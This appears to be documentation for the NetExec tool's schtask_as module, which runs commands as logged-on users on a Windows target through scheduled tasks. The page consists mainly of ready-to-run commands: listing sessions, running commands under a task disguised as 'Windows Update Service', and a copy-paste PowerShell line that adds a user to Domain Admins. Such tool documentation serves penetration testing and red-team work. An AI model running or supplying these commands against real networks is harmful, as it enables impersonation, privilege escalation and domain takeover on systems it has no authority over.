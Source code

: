```yaml
---
description: >-
  Use Sessions from logged-on Users to execute arbitrary commands using
  schtask_as
---
```


# 🆕 Impersonate logged-on Users

{% hint style="warning" %}
You need at least local admin privilege on the remote target
{% endhint %}

The Module `schtask_as` can execute commands on behalf of other users which have sessions on the target, thanks to the contribution from [@Defte\_](https://twitter.com/Defte\_).

### 1. Enumerate logged-on users on your Target

```
nxc smb <ip> -u <localAdmin> -p <password> --loggedon-users
```

### 2. Execute commands on behalf of other users

```
nxc smb <ip> -u <localAdmin> -p <password> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>
```

<figure><img src="../.gitbook/assets/schtask_as.png" alt=""><figcaption></figcaption></figure>

### Module options:

```
CMD            Command to execute
USER           User to execute command as
TASK           OPTIONAL: Set a name for the scheduled task name
FILE           OPTIONAL: Set a name for the command output file
LOCATION       OPTIONAL: Set a location for the command output file (e.g. '\tmp\')
```

Example:

```
nxc smb [] -u [] -p [] --local-auth -M schtask_as -o USER=[target] CMD="whoami" TASK="Windows Update Service" FILE="update.log" LOCATION="\\Windows\\Tasks\\"
```

Custom command to add a user to the domain admin group for easy copy\&pasting:

```
powershell.exe \"Invoke-Command -ComputerName DC01 -ScriptBlock {Add-ADGroupMember -Identity 'Domain Admins' -Members USER.NAME}\"
```
